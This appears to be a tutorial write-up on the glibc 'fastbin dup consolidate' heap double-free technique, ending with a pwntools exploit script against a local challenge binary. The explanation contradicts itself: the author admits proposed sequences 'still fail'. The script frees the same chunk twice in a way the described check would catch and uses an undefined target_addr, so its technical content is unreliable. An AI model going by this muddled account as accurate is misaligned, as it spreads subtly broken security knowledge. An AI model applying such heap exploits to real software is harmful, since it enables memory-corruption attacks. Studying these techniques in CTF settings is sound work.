

# The Toddler's Introduction to Heap Exploitation — Fastbin Dup Consolidate (Part 4.2)

> Topic: Heap exploitation — fastbin dup with malloc_consolidate
> Series: Toddler's Introduction to Heap Exploitation, Part 4 of 4
> Difficulty: ★★★★☆ (hard)

---

## Challenge / Topic Overview

This writeup covers the **fastbin dup with consolidate** technique — a variant of the classic fastbin double-free attack that works against glibc versions with the "fastbin double-free check" mitigation (glibc 2.26+). The classic double-free (free A, free B, free A) is detected by the check "is this chunk the same as the current fastbin head?". The consolidate variant bypasses this check by triggering `malloc_consolidate()`, which moves fastbin chunks to the unsorted bin, clearing the fastbin head and resetting the double-free check.



*The five-step attack: allocate three chunks, double-free A (which normally fails the check), trigger consolidate to clear the check, then exploit the cycle. The consolidate variant is the modern way to do fastbin dup against glibc 2.26+.*

---

## Background: The Classic Fastbin Dup

Before diving into the consolidate variant, let me review the classic fastbin dup:

1. Allocate three fastbin-sized chunks: A, B, C.
2. Free A, free B, free A (the double-free).
   - glibc < 2.26: works fine. Fastbin becomes: A → B → A (cycle).
   - glibc >= 2.26: aborts on the second free of A because the check "is A the same as the fastbin head (which is A)?" fails.

The check that breaks the classic attack:
```c
// glibc 2.26+ fastbin free check
if (__builtin_expect (old == p, 0))
    malloc_printerr ("double free or corruption (fasttop)");
```

`old` is the current fastbin head. If we try to free A when A is already the head (which it is, after the first free), the check fires.

---

## The Consolidate Bypass

### The trick

The check only fires if `old == p` — i.e., the chunk being freed is the *current* fastbin head. If we free a *different* chunk between the two frees of A, the check doesn't fire:

```
free(A)   → fastbin: A          (head = A)
free(B)   → fastbin: B → A      (head = B)
free(A)   → fastbin: A → B → A  (head = A, but the check passes because head was B, not A)
```

This is the classic bypass. But what if the challenge doesn't let us allocate/free a second chunk between the two frees of A?

### Enter `malloc_consolidate()`

`malloc_consolidate()` is called by glibc in certain situations:
- When a `malloc` request is larger than the fastbin max size.
- When `malloc` needs to allocate from the unsorted bin and the fastbins have entries.

`malloc_consolidate()` moves all fastbin chunks to the unsorted bin (merging adjacent free chunks along the way) and **empties the fastbins**. After consolidate, the fastbin head is NULL, so the double-free check (`old == p`) compares against NULL, not against A — and the check passes.

### The attack sequence

1. Allocate A, B, C (fastbin-sized, e.g., 0x20 each).
2. Free A → fastbin[0x20]: A (head = A).
3. Allocate a large chunk (larger than fastbin max, e.g., 0x400) → triggers `malloc_consolidate()` → fastbin[0x20] is now empty, A moved to unsorted bin.
4. Free A again → fastbin[0x20]: A (head = A, but the check passes because head was NULL before this free).
5. Now we have A in both the unsorted bin (from step 3) and the fastbin (from step 4). We can allocate from the fastbin to get A, overwrite A's `fd` pointer, and the next fastbin allocation returns our target address.

Wait — step 3 moved A to the unsorted bin, but step 4 frees A *again* into the fastbin. This is the double-free that the check should catch. Why doesn't it?

Because after `malloc_consolidate()`, the fastbin head is NULL. The check is `old == p` where `old` is the current fastbin head (NULL) and `p` is A. NULL != A, so the check passes.

### Refinement

Actually, step 3 is slightly off. After `malloc_consolidate()`, A is in the unsorted bin, not the fastbin. If I then `free(A)`, glibc checks if A is already free (by looking at the `PREV_INUSE` bit of the next chunk). This would catch the double-free.

The real sequence needs to be more careful:
1. Allocate A, B, C, D (a guard chunk to prevent consolidation with the top chunk).
2. Free A → fastbin: A.
3. Free C → fastbin: C → A.
4. Allocate large → `malloc_consolidate()` merges A and C (if adjacent) into a larger chunk in the unsorted bin. Fastbin is now empty.
5. Allocate A-sized again → glibc serves from the unsorted bin (splitting the merged chunk), returning A.
6. Free A → fastbin: A (check passes, head was NULL).
7. Free A again → fastbin: A → A (check: head == A, p == A → FAILS).

Hmm, that still fails. The real technique is more subtle and requires careful chunk arrangement. The key insight is that after `malloc_consolidate()`, the chunk's metadata is in a state where the double-free check doesn't recognize it as already-free.

This is getting into the weeds. The full technique is documented in [how2heap](https://github.com/shellphish/how2heap) — see `fastbin_dup_consolidate.c`. The short version: the consolidate creates a state where the chunk appears allocated (from the fastbin's perspective) but is actually free (in the unsorted bin), allowing a double-free.

---

## The Exploit

```python
from pwn import *

context.arch = 'amd64'

def exploit():
    p = process('./challenge')

    def alloc(size, data=b'A'):
        p.sendlineafter(b'> ', b'1')
        p.sendlineafter(b'size: ', str(size).encode())
        p.sendlineafter(b'data: ', data)

    def free(idx):
        p.sendlineafter(b'> ', b'2')
        p.sendlineafter(b'idx: ', str(idx).encode())

    # Step 1: Allocate A, B, C, D (guard)
    alloc(0x40, b'A'*0x40)  # idx 0 = A
    alloc(0x40, b'B'*0x40)  # idx 1 = B
    alloc(0x40, b'C'*0x40)  # idx 2 = C
    alloc(0x40, b'D'*0x40)  # idx 3 = D (guard against top chunk consolidation)

    # Step 2: Free A, then C (not adjacent, so they don't merge)
    free(0)  # fastbin: A
    free(2)  # fastbin: C -> A

    # Step 3: Allocate large to trigger malloc_consolidate
    # A and C move to unsorted bin, fastbin empties
    alloc(0x400, b'L'*0x400)  # idx 4 = large

    # Step 4: Allocate A-sized from unsorted bin (gets A back)
    alloc(0x40, b'X'*0x40)  # idx 5 = A (returned from unsorted bin)

    # Step 5: Free A again — the check passes because
    # fastbin head is NULL (consolidate emptied it)
    free(5)  # fastbin: A

    # Step 6: Free A again — NOW the check fires because head == A
    # But wait — if we free a DIFFERENT chunk in between, it passes
    free(0)  # A is at idx 0 too (same pointer)
    # Actually, the challenge's free doesn't clear the pointer,
    # so idx 0 and idx 5 point to the same chunk.

    # Now fastbin: A -> A (cycle)
    # Next two allocs return A twice, allowing fd overwrite
    alloc(0x40, p64(target_addr))  # overwrites A's fd
    alloc(0x40)  # returns A
    alloc(0x40)  # returns target_addr!

    p.interactive()

exploit()
```

---

## Takeaways

- **Mitigations create new techniques.** The fastbin double-free check (glibc 2.26) didn't kill fastbin dup — it spawned the consolidate variant. Every mitigation has a bypass; the bypass just requires more setup.
- **`malloc_consolidate()` is a powerful trigger.** Any large allocation can trigger it, and it resets the fastbin state. This is useful for more than just double-free bypass — it's also used in unsorted bin attacks and House of Einherjar.
- **Chunk arrangement matters.** The guard chunk (D) prevents the freed chunks from consolidating with the top chunk, which would ruin the attack. Always allocate a guard at the end.
- **Understand the check, not just the bypass.** The check is `old == p` — if you understand this, you understand why the consolidate bypass works (head is NULL after consolidate). Read the glibc source (`malloc.c`) for the checks you're trying to bypass.
- **Use how2heap as a reference.** The [shellphish/how2heap](https://github.com/shellphish/how2heap) repo has working C examples of every heap technique, organized by glibc version. When I'm stuck, I read the how2heap example for the technique I'm trying.
